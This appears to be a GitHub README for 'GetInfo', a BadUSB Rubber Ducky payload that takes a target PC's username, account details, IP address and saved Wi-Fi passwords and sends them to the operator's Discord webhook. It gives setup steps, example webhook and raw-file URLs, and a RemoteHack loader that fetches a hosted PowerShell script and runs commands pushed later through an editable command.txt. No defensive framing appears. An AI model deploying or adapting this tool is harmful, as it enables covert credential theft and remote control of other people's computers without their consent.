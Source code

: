 # GetInfo - BadUSB Rubber Ducky Script

This BadUSB Rubber Ducky script is designed to swiftly collect information from a target's PC and transmit it to your personal Discord server. The script runs for approximately 3 seconds, gathering data such as username, computer name, disk location, account details, OS version, IP address, and previously signed-in Wi-Fi networks with passwords.

## How to Set Up


1. Duplicate this GitHub repository to host it online for accessibility.


2. Edit the code in the duplicated `getinfo.ps1` file to update the Discord webhook API credentials at line 7 and the URL to `command.txt` at line 9 with your specific information,
EXAMPLE:

`$hookUrl = "https://discord.com/api/webhooks/120056/HOw7_j7W-jMllc-uZMbCWq1DEYJUuKj"`

`$url = "https://github.com/6uard1an/Cool-FLipper-Zero-BadUSB-s/raw/main/command.txt"`


4. On your BadUSB Rubber Ducky device, install the script from `RemoteHack.txt`.


5. Replace `'link-to/getinfo.ps1'` in the script with the custom hosted URL of your `.ps1` file within the duplicated GitHub repository,
Example:
`link-to/getinfo.ps1` ==> `https://github.com/6uard1an/Cool-FLipper-Zero-BadUSB-s/raw/main/getinfo.ps1`


5.The updated RemoteHack.txt is your new payload file.


By following these steps, you can deploy and customize the GetInfo script for your specific use case. Ensure that the Discord webhook and the URL to `command.txt` in your duplicated GitHub repository are correctly configured in the `.ps1` file for the script to function as intended, securely transmitting gathered information to your Discord server.
 when you edit the command.txt file from your copied repo, all running instances of the RemoteHack will execute the commands within it.
